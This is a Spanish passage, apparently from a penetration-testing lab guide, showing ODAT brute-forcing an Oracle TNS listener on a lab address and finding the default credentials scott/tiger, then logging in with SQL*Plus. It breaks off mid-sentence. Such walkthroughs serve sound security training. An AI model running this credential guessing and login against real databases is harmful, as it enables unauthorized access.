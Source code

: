 ### ODAT

Para enumerar y recoger información sobre los servicios y componentes de la base de datos Oracle, podemos usar la herramienta `odat.py`. En el siguiente ejemplo, se encontraron credenciales válidas para el usuario `scott` con la contraseña `tiger`:

```bash
./odat.py all -s 10.129.204.235
```

**Resultado de ODAT**

```csharp
[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...

...SNIP...
```

### Conexión con SQL\*Plus

Una vez que tenemos las credenciales válidas, podemos usar `sqlplus` para conectarnos a la base de datos Oracle e interactuar con ella.

```bash
sqlplus scott/tiger@10.129.204.235/XE
```

**Resultado de SQL\*Plus**

```sql
SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:19:21 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL>
```

Si encuentras el error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, ejecuta el siguiente comando:
